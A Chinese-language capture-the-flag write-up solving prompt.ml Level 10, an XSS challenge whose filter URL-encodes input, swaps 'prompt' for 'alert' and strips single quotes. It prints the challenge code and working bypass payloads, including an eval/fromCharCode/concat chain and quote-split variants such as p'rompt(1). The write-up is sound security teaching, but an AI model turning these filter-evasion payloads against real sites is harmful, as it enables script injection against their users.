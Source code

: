 ## [[prompt(1) to win](http://prompt.ml)] [[Level A - (╯°□°）╯︵ ┻━┻](http://prompt.ml/10)] [[解题报告](http://exp-blog.com/2019/03/24/pid-3706/)]

------

## 题目

```javascript
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}
```

## 解题报告

题目对输入内容**依次**做了三段过滤：

- 使用 `encodeURIComponent` 做 URL 编码
- 把 `prompt` 换成了 `alert`
- 过滤了所有单引号 `'`

虽然输入内容直接在 `<script>` 里面，但是要把 `prompt` 成功写入的方法似乎都失效了。

因为除了 `a-z`、 `A-Z`、`0-9`、 `.`、 `(`、 `)`、 `!`、 `~`、 `*` 这些字符，其他都几乎被过滤了。

------------


我最开始想到，JS 解析器在解析标识符名称时（如函数名、属性名）等，若遇到 Unicode 会直接进行解码，并使得标识符依旧生效。于是构造了这个 payload `\u0070\u0072\u006f\u006d\u0070\u0074(1)` 绕过 `replace` 以在前端直接构造 `prompt(1)` , 但是 `\` 被 `encodeURIComponent` 转码成了 `%5C` ，失败。。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB/imgs/01.png)

后来又想到 `eval` 函数，于是构造这个 payload  `eval(String.fromCharCode(112,114,111,109,112,116,40,49,41))` 

期望可以绕过 `replace` 逐字符构造 `prompt(1)` ，但是 `,` 被 `encodeURIComponent` 转码成了 `%2C` ，还是失败。。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB/imgs/02.png)

不过转念一想，既然不能用逗号 `,` 拼接字符，那么直接用 `concat` 函数就可以了。

于是重新构造 payload 如下，完成挑战：

```javascript
eval(String.fromCharCode(112).concat(String.fromCharCode(114)).concat(String.fromCharCode(111)).concat(String.fromCharCode(109)).concat(String.fromCharCode(112)).concat(String.fromCharCode(116)).concat(String.fromCharCode(40)).concat(String.fromCharCode(49)).concat(String.fromCharCode(41)))
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB/imgs/03.png)

------------

其实这题想多了反而复杂，有一个更简单的方法是 **利用题目自身的逻辑过滤去绕过**。

题目首先把 `prompt` 替换成 `alert` ， 然后又把单引号 `'` 替换成空。

那么其实只需要把单引号 `'` 插到 `prompt` 中间的任意位置就可以绕过所有过滤了。。。

所以这些 payload 都是可以完成挑战的：

- `p'rompt(1)`
- `pr'ompt(1)`
- `pro'mpt(1)`
- `prom'pt(1)`
- `promp't(1)`
- `p'r'o'm'p't(1)`

因为这些字符本身属于保留字符，不会被 `encodeURIComponent` 编码；其次 `prompt` 中间有单引号 `'` 的时候，也不满足 `replace` 的条件；最后题目还很贴心地帮我们把所有单引号 `'` 删掉了，，，，所以有时其实真是我们想太多了。。。(╯°□°）╯︵ ┻━┻

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB/imgs/04.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
